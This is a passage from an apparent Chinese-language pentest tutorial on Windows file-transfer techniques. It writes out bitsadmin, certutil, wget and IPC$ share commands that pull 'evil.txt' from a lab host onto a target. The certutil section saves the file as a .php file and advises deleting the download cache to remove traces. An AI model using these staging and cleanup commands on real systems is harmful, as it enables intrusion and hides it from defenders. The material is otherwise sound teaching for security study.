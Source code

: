 ![](./image/20200413-1.png)



**2、Bitsadmin**

bitsadmin是一个命令行工具，可用于创建下载或上传工作和监测其进展情况。

~~~
bitsadmin /transfer n http://192.168.28.128/imag/evil.txt d:\test\1.txt
~~~

输入以上命令，成功下载文件。

![](./image/20200413-2.png)



**3、certutil**

用于备份证书服务，支持xp-win10都支持。由于certutil下载文件都会留下缓存，所以一般都建议下载完文件后对缓存进行删除。

注：缓存目录为："%USERPROFILE%\AppData\LocalLow\Microsoft\CryptnetUrlCache\Content"

~~~
#下载文件
certutil -urlcache -split -f http://192.168.28.128/imag/evil.txt test.php
#删除缓存
certutil -urlcache -split -f http://192.168.28.128/imag/evil.txt delete
~~~

![](./image/20200413-3.png)

**4、wget**

Windows环境下，可上传免安装的可执行程序wget.exe到目标机器，使用wget下载文件。

wget.exe下载：<https://eternallybored.org/misc/wget/>

```
wget -O "evil.txt" http://192.168.28.128/imag/evil.txt
```

![](./image/20200413-4.png)



**5、ipc$文件共享**

IPC$(Internet Process Connection)是共享"命名管道"的资源，它是为了让进程间通信而开放的命名管道，通过提供可信任的用户名和口令，连接双方可以建立安全的通道并以此通道进行加密数据的交换，从而实现对远程计算机的访问。

~~~
#建立远程IPC连接
net use \\192.168.28.128\ipc$ /user:administrator "abc123!"
#复制远程文件到本地主机
copy \\192.168.28.128\c$\2.txt D:\test
~~~

![](./image/20200413-5.png)

